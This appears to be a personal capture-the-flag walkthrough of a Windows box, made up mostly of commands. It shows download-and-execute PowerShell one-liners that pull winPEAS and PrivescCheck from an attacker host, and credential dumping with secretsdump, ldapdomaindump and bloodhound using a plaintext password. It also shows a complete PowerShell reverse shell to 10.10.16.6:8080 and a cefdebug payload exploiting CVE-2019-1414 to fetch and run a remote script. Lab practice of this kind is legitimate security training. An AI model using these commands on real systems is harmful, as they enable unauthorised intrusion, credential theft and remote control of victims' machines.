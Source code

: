 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



Let's get back to script and see what we can do there
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

![[Pasted image 20240924225659.png]]

So what's the thing that stands outttttttttttttttttttt.
Microsoft VS Code            C:\Program Files\Microsoft VS Code
![[Pasted image 20240924233613.png]]

```
C:\Program Files\Microsoft VS Code
```

```
(get-command .\Code).version
```
![[Pasted image 20240925001315.png]]

CVE
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1414

Will follow this blog
https://iwantmore.pizza/posts/cve-2019-1414.html


```
Invoke-WebRequest -Uri http://10.10.16.6/cefdebug/cefdebug.exe -OutFile cefdebug.exe
```
![[Pasted image 20240925160843.png]]
```
ws://127.0.0.1:40860/b4349ceb-188d-42a8-8c02-04d8145a3bf6
```

```
ws://127.0.0.1:64554/62f6a0f5-255e-4f13-a5aa-1e9cd4d3738b
```


Reverse Shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.6',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();
```

Payload
```
.\cefdebug.exe --url ws://127.0.0.1:40860/b4349ceb-188d-42a8-8c02-04d8145a3bf6 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.6/shell02.ps1\')')"
```

